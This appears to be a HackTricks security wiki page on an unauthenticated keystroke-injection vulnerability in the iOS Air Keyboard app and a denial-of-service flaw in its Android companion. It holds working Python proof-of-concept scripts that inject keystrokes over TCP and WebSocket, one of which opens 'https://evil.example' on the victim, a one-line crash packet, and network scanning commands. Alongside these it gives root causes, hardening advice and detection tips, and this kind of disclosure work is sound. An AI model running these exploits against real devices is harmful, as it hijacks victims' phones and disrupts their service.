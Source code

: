 # Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

The iOS version of the commercial **“Air Keyboard”** application (App Store ID 6463187929) exposes a local-network service that **accepts keystroke frames without any authentication or origin verification**. Depending on the version installed the service is either:

* **≤ 1.0.4**  – raw TCP listener on **port 8888** that expects a 2-byte length header followed by a *device-id* and the ASCII payload.
* **≥ 1.0.5 (June 2025)**  – **WebSocket** listener on the *same* port (**8888**) that parses **JSON** keys such as `{"type":1,"text":"…"}`.

Any device on the same Wi-Fi / subnet can therefore **inject arbitrary keyboard input into the victim’s phone, achieving full remote interaction hijacking**.  
A companion Android build listens on **port 55535**. It performs a weak AES-ECB handshake but crafted garbage still causes an **unhandled exception inside OpenSSL**, crashing the background service (**DoS**).

> The vulnerability is **still unpatched at the time of writing (July 2025)** and the application remains available in the App Store.

---

## 1. Service Discovery

Scan the local network and look for the two fixed ports used by the apps:

```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24  

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```

On Android handsets you can identify the responsible package locally:

```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```

On **jailbroken iOS** you can do something similar with `lsof -i -nP | grep LISTEN | grep 8888`.

---

## 2. Protocol Details (iOS)

### 2.1  Legacy (≤ 1.0.4) – custom binary frames

```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```

The declared *length* includes the `device_id` byte **but not** the two-byte header itself.

### 2.2  Current (≥ 1.0.5) – JSON over WebSocket

Version 1.0.5 silently migrated to WebSockets while keeping the port number unchanged. A minimal keystroke looks like:

```json
{
  "type": 1,              // 1 = insert text, 2 = special key
  "text": "open -a Calculator\n",
  "mode": 0,
  "shiftKey": false,
  "selectionStart": 0,
  "selectionEnd": 0
}
```

No handshake, token or signature is required – the first JSON object already triggers the UI event.

---

## 3. Exploitation PoC

### 3.1  Targeting ≤ 1.0.4 (raw TCP)

```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
    s.sendall(frame)
print("[+] Injected", keystrokes)
```

### 3.2  Targeting ≥ 1.0.5 (WebSocket)

```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
    "type": 1,
    "text": "https://evil.example\n",
    "mode": 0,
    "shiftKey": False,
    "selectionStart": 0,
    "selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```

*Any printable ASCII — including line-feeds, tabs and most special keys — can be sent, giving the attacker the same power as physical user input: launching apps, sending IMs, opening malicious URLs, toggling settings, etc.*

---

## 4. Android Companion – Denial-of-Service

The Android port (55535) expects a **4-character password encrypted with a hard-coded AES-128-ECB key** followed by a random nonce.  Parsing errors bubble up to `AES_decrypt()` and are not caught, terminating the listener thread.  A single malformed packet therefore suffices to keep legitimate users disconnected until the process is relaunched.

```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```

---

## 5. Related Apps – A Recurring Anti-Pattern

Air Keyboard is **not an isolated case**. Other mobile “remote keyboard/mouse” utilities have shipped with the very same flaw:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78  allow unauthenticated command execution and plain-text key-logging.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80  unauthenticated RCE & traffic snooping.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83  default-no-password, weak PIN brute-force and clear-text leakage.

These cases highlight a systemic neglect of **network-facing attack surfaces on mobile apps**.

---

## 6. Root Causes

1. **No origin / integrity checks** on incoming frames (iOS).
2. **Cryptographic misuse** (static key, ECB, missing length validation) and **lack of exception handling** (Android).
3. **User-granted Local-Network entitlement ≠ security** – iOS requests runtime consent for LAN traffic, but it doesn’t substitute proper authentication.

---

## 7. Hardening & Defensive Measures

Developer recommendations:

* Bind the listener to **`127.0.0.1`** and tunnel over **mTLS** or **Noise XX** if remote control is needed.
* Derive **per-device secrets during onboarding** (e.g., QR code or Pairing PIN) and enforce *mutual* authentication before processing input.
* Adopt **Apple Network Framework** with *NWListener* + TLS instead of raw sockets.
* Implement **length-prefix sanity checks** and structured exception handling when decrypting or decoding frames.

Blue-/Red-Team quick wins:

* **Network hunting:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` or Wireshark filter `tcp.port == 8888`.
* **Runtime inspection:** Frida script hooking `socket()`/`NWConnection` to list unexpected listeners.
* **iOS App Privacy Report (Settings ▸ Privacy & Security ▸ App Privacy Report)** highlights apps that contact LAN addresses – useful for spotting rogue services.
* **Mobile EDRs** can add simple Yara-L rules for the JSON keys `"selectionStart"`, `"selectionEnd"` inside clear-text TCP payloads on port 8888.

---

## Detection Cheat-Sheet (Pentesters)

```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
  | awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
  echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```

---

## References

- [Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 Remote Input Injection](https://www.exploit-db.com/exploits/52333)  
- [Mobile-Hacker Blog (17 Jul 2025) – Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

{{#include ../../banners/hacktricks-training.md}}